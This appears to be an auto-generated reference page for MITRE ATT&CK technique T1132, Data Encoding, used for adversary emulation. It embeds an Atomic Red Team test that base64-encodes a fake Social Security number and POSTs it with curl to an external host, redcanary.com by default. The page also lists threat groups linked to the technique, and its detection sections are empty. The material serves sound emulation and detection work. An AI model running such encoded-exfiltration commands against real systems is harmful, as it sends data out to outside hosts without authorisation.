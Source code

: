 
# Data Encoding

## Description

### MITRE Description

> Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: True
* Permissions: ['User']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1132

## Potential Commands

```
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.redcanary.com

echo -n 111-11-1111 | base64
curl -XPOST MTExLTExLTExMTE=.#{destination_url}

```

## Commands Dataset

```
[{'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST #{base64_data}.redcanary.com\n',
  'name': None,
  'source': 'atomics/T1132/T1132.yaml'},
 {'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST MTExLTExLTExMTE=.#{destination_url}\n',
  'name': None,
  'source': 'atomics/T1132/T1132.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Data Encoding': {'atomic_tests': [{'description': 'Utilizing '
                                                                            'a '
                                                                            'common '
                                                                            'technique '
                                                                            'for '
                                                                            'posting '
                                                                            'base64 '
                                                                            'encoded '
                                                                            'data.\n',
                                                             'executor': {'command': 'echo '
                                                                                     '-n '
                                                                                     '111-11-1111 '
                                                                                     '| '
                                                                                     'base64\n'
                                                                                     'curl '
                                                                                     '-XPOST '
                                                                                     '#{base64_data}.#{destination_url}\n',
                                                                          'name': 'sh'},
                                                             'input_arguments': {'base64_data': {'default': 'MTExLTExLTExMTE=',
                                                                                                 'description': 'Encoded '
                                                                                                                'data '
                                                                                                                'to '
                                                                                                                'post '
                                                                                                                'using '
                                                                                                                'fake '
                                                                                                                'Social '
                                                                                                                'Security '
                                                                                                                'number '
                                                                                                                '111-11-1111.',
                                                                                                 'type': 'string'},
                                                                                 'destination_url': {'default': 'redcanary.com',
                                                                                                     'description': 'Destination '
                                                                                                                    'URL '
                                                                                                                    'to '
                                                                                                                    'post '
                                                                                                                    'encoded '
                                                                                                                    'data.',
                                                                                                     'type': 'string'}},
                                                             'name': 'Base64 '
                                                                     'Encoded '
                                                                     'data.',
                                                             'supported_platforms': ['macos',
                                                                                     'linux']}],
                                           'attack_technique': 'T1132',
                                           'display_name': 'Data Encoding'}}]
```

# Tactics


* [Command and Control](../tactics/Command-and-Control.md)


# Mitigations

None

# Actors


* [APT19](../actors/APT19.md)

* [Lazarus Group](../actors/Lazarus-Group.md)
    
* [Patchwork](../actors/Patchwork.md)
    
* [BRONZE BUTLER](../actors/BRONZE-BUTLER.md)
    
* [APT33](../actors/APT33.md)
    

